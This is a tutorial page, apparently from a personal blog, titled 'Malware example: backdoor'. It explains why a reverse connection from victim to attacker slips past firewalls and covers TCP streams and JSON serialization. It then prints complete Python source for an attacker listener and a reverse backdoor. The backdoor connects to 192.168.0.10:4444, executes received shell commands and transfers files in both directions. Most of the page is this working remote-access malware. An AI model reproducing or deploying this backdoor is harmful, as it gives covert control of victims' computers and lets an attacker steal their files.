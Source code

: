 ```yaml
---
title: "Malware example: backdoor"
date: 2019-03-03

client: ["malware",]
menu: "main"
---
```


In this example we are using a server listener on the attacker machine and a reverse backdoor on the client that connects to the server.
This is more convenient then a connection that goes from attacker directly to the victim since firewalls might block it.  

When the connection is initiated from the victim to the attacker we can use a port like 8080 that is probably already open on the victims outbound firewall. We will use sockets and send the data over a TCP stream.

---

Message Oriented protocols send data in distinct chunks or groups. The receiver of data can determine where one message ends and another begins. Stream protocols send a continuous flow of data.

Here is an example with mobile phones. Text messages would be a message oriented protocol as each text message is distinct from the other messages. A phone call is stream oriented as there is a continuous flow of audio throughout the call.

UDP is message oriented and TCP is stream oriented.

---

In this example we will use serialization which has these benefits:

  * the message is well defined, the receiver knows if message is incomplete
  * it can be used to transfer objects (lists, dicts, etc)

At the client we will convert our object to a stream of well defined bytes, on the server we will convert the well-defined stream of bytes back into an object.  

We will use JSON to implement this. This way we can convert data structures (such as objects, dictionaries, lists etc) into text (json.dumps(data))

The text will then be send over the TCP stream and the receiver will use JSON again to convert it back into its original data structure (json.loads(data))

```python
#!/usr/bin/env python
import socket
import json
import base64
import sys

class Listener:
    def __init__(self, ip, port):
        listener = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        listener.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        listener.bind((ip, port))
        listener.listen(0)
        print("\n [+] Waiting for connection \n")
        self.connection, address = listener.accept()
        print("[+] Got a connection from " + str(address))

    def reliable_send(self, data):
        json_data = json.dumps(data)
        self.connection.send(json_data)

    def reliable_receive(self):
        json_data = ""
        while True:
            try:
                json_data = json_data + self.connection.recv(1024)
                return json.loads(json_data)
            except ValueError:
                continue

    def execute_remotely(self, command):
        self.reliable_send(command)
        if command[0] == "exit":
            self.connection.close()
            exit()
        # get the received data from our backdoor command
        return self.reliable_receive()

    def write_file(self, path, content):
        with open(path, "wb") as file:
            file.write(base64.b64decode(content))
            return "[+] Download successful."

    def read_file(self, path):
        with open(path, "rb") as file:
            return base64.b64encode(file.read())

    def run(self):
        while True:
            command = raw_input(">> ")
            command = command.split(" ")
            try:
                if command[0] == "upload":
                    file_content = self.read_file(command[1])
                    command.append(file_content)
                result = self.execute_remotely(command)

                if command[0] == "download" and "[-] Error " not in result:
                    result = self.write_file(command[1], result)
                result = self.execute_remotely(command)
            except Exception:
                result = "[-] Error during command execution."

            print(result)

my_listener = Listener("192.168.0.10", 4444)
my_listener.run()
```

```python
#!/usr/bin/env python
import socket
import subprocess
import json
import os
import base64
import sys

class Backdoor:
    def __init__(self, ip, port):
        self.connection = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.connection.connect((ip, port))


    def reliable_send(self, data):
        json_data = json.dumps(data)
        self.connection.send(json_data)

    def reliable_receive(self):
        json_data = ""
        while True:
            try:
                json_data = json_data + self.connection.recv(1024)
                return json.loads(json_data)
            except ValueError:
                continue

    def execute_system_command(self, command):
        return subprocess.check_output(command, shell=True)

    def change_working_directory_to(self, path):
        os.chdir(path)
        return "[+] Changing directory to " + path

    def read_file(self, path):
        with open(path, "rb") as file:
            return base64.b64encode(file.read())

    def write_file(self, path, content):
        with open(path, "wb") as file:
            file.write(base64.b64decode(content))
            return "[+] Upload successful."

    def run(self):
        while True:
            command = self.reliable_receive()
            try:
                if command[0] == "exit":
                    self.connection.close()
                    sys.exit()
                elif command[0] == "cd" and len(command) > 1:
                    command_result = self.change_working_directory_to(command[1])
                elif command[0] == "download":
                    command_result = self.read_file(command[1])
                elif command[0] == "upload":
                    command_result = self.write_file(command[1], command[2])
                else:
                    command_result = self.execute_system_command(command)
            except Exception:
                command_result = "[-] Error during command execution."

            self.reliable_send(command_result)


my_door = Backdoor("192.168.0.10", 4444)
my_door.run()
```
